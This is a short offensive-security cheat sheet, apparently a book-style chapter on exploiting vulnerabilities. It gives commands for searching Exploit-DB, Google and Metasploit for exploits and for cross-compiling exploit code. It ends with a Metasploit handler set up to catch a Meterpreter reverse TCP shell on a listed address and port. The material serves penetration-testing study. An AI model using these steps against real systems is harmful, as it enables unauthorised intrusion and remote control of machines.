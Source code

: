 # Chapter 3 - Exploiting Vulnerabilities

> _That was the division in the hacking world: There were people who were exploring it and the people who were trying to make money from it. And, generally, you stayed away from anyone who was trying to make money from it._
>
> _**— **_**Jeff Moss**

&nbsp;
## Finding Exploits

##### Search Exploit-DB
```
Kali> searchsploit windows 2003 | grep -i local
```
To quickly view the exploit
```
Kali> searchsploit -x ######.py
```
##### Search Google
```
Google> site:exploit-db.com exploit kernel <= 3
```

##### Search Metasploit
```
Kali> grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*
```

##### Search Vulners

[Vulners Audit](https://vulners.com/audit)

&nbsp; 
## Compiling Exploits

##### Compile for Windows

```
Kali> i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```

##### Compile for Architectures

```
Kali> gcc -m32 -o output32 hello.c (32 bit)
Kali> gcc -m64 -o output hello.c (64 bit)
```
&nbsp;
## Catching Exploits
```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
